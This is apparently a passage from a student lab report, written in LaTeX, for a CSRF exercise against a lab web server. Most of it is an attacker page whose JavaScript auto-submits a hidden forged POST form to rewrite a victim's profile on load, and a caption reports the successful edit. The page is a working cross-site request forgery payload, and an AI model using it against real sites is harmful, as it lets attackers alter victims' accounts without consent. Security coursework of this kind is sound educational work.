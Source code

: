 \subsection{Task 3 --- CSRF Attack using POST Request}
%
\begin{lstlisting}[language=javascript, caption=Changes in {\fontfamily{qcr}\selectfont
    editprofile.html}, label={lst:editprofile_html}]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>"; // change here
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>"; // change here
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>"; // change here

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit"; // change here
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/editprofile_alice.png}
    \caption{Showing ``Samy is my hero'' in the Alice's profile page.}
    \label{fig:edited_alice_profile}
\end{figure}

